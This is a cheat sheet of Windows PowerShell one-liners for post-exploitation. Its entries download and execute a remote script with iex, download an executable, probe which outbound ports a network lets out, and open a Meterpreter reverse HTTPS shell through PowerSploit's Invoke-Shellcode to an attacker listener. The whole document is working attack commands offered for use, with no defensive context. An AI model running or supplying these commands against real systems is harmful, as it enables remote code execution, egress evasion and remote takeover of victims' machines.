 # Windows Powershell Commands and Scripts for Post Exploitation

One liners
-----------

**Download and Execute Remote Powershell Script**

```iex (New-Object Net.WebClient).DownloadString("http://host/file.txt")```

**Download and Save File**

```(new-object System.Net.WebClient).Downloadfile('http://host/file.exe', 'file.exe')```

**Enumerate Allowed Outbound Ports 1-1024**

```$ErrorActionPreference = "silentlycontinue"; 1..1024 | % {$req = [System.Net.WebRequest]::Create("http://letmeoutofyour.net:$_"); $req.Timeout = 600; $resp = $req.GetResponse(); $respstream = $resp.GetResponseStream(); 
$stream = new-object System.IO.StreamReader $respstream; $out = $stream.ReadToEnd(); if ($out.trim() -eq "w00tw00t"){echo "$_ Allowed out"}}```

**Reverse Shell Using [PowerSploit's Invoke-Shellcode](https://github.com/mattifestation/PowerSploit/blob/master/CodeExecution/Invoke-Shellcode.ps1)**

```Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 192.168.1.10 -Lport 443 -Force```